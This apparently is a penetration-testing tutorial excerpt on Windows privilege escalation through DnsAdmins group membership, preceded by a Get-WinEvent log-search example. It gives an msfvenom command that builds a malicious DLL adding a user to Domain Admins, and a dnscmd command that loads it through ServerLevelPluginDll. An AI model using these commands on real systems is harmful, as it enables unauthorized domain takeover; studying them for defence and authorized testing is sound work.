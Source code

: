 ####  Searching Security Logs Using Get-WinEvent

```
PS C:\> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

> Searching the Security event log with Get-WinEvent requires administrator access or permissions adjusted on the registry key HKLM\System\CurrentControlSet\Services\Eventlog\Security. Membership in just the Event Log Readers group is not sufficient.

### **DNS ADMINS**

Members of the DnsAdmins group have access to DNS information on the network. The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones. The DNS service runs as NT AUTHORITY\SYSTEM, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL



*  DNS management is performed over RPC
  
*  ServerLevelPluginDll allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the dnscmd tool from the command line
    
*  When a member of the DnsAdmins group runs the dnscmd command below, the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll registry key is populated
    
*  When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
    
*  An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

#### Leveraging DnsAdmins Access

##### Generating Malicious DLL

malicious DLL to add a user to the domain admins group using msfvenom

```
attacker@linux: msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

##### Loading DLL as Non-Privileged User

Moving File to the victim machine then using the dnscmd utility to load a custom DLL with a non-privileged user

```
C:\> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```
> As expected, attempting to execute this command as a normal user isn't successful. Only members of the DnsAdmins group are permitted to do this.
